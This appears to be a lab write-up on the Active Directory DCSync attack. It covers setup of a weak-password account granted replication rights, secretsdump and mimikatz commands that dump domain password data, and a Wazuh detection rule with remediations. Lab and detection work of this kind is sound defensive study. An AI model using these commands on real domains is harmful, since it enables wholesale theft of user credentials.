

DCSync abuses the "Directory Replication Service (DRS)" protocol. Domain Controllers use this protocol to replicate AD data between each other. An attacker with the right permissions can pretend to be a DC and request password data for any user.

***Lab Setup***

GUI:`Win + r -> dsa.msc` Create a new user, Enable Advanced Features `View -> Tick Advanced Features` `Right-Click FQDN -> Properties -> Security -> Advanced -> Add -> Select a Principal` Enter Desired User 


CLI: Run Powershell as administrator.

Create the user: `New-ADUser -Name "dcreplicate" -SamAccountName "dcreplicate" -AccountPassword (ConvertTo-SecureString "Password123" -AsPlainText -Force) -Enabled $true -PasswordNeverExpires $true`.

Grant The Permissions: `dsacls.exe "DC=redteam,DC=local" /G "redteam.local\dcreplicate:CA;Replicating Directory Changes`

`dsacls.exe "DC=redteam,DC=local" /G "redteam.local\dcreplicate:CA;Replicating Directory Changes All`.

Verify: `(Get-Acl AD:\DC=redteam,DC=local).Access | Where-Object {$_.IdentityReference -eq "REDTEAM\dcreplicate"} | Select-Object ActiveDirectoryRights, IdentityReference | fl`


**Attack**

From Linux: `impacket-secretsdump redteam.local/dcreplicate:"Password123"@$IP`


From Windows: `.\mimikatz.exe`
`lsadump::dcsync /domain redteam.local /user:$USER$`


Detection: Custom Wazuh Rule
```xml
<rule id="100012" level="15"> <if_sid>60103</if_sid> <field name="win.system.eventID">^4662$</field> <field name="win.eventdata.properties">1131f6aa-9c07-11d1-f79f-00c04fc2dcd2</field> <description>DCSync detected - Replicating Directory Changes permission used by $(win.eventdata.subjectUserName)</description> <mitre> <id>T1003.006</id> </mitre> </rule>
```


| Wazuh Rule               | Value                                | Meaning                        |
| ------------------------ | ------------------------------------ | ------------------------------ |
| win.system.eventID       | 4662                                 | Active Directory Object Access |
| win.eventdata.properties | 1131f6aa-9c07-11d1-f79f-00c04fc2dcd2 | DS-Replication-Get-Changes     |
| Mitre ATT&CK             | T1003.006                            | OS Credential Dumping: DCSync  |
| Description              | $(win.eventdata.subjectUserName)     | User used to replicate         |

**Remediations**

| Password Policies                       | Ensure that local administrator accounts have complex, unique passwords across all systems on the network.                                       |
| --------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------ |
| Monitor For Non-DC Replication Requests | An Account Performing Replication That isn't DC is considered suspicious                                                                         |
| Credential Guard                        | Enable Windows Credential Guard to protect NTLM hashes and kerberos tickets in memory                                                            |
| Least Privilege on Replication Rights   | Only Domain Controllers should have `Replicating Directory Changes` permissions. Regularly audit and remove this right from any non-DC accounts. |
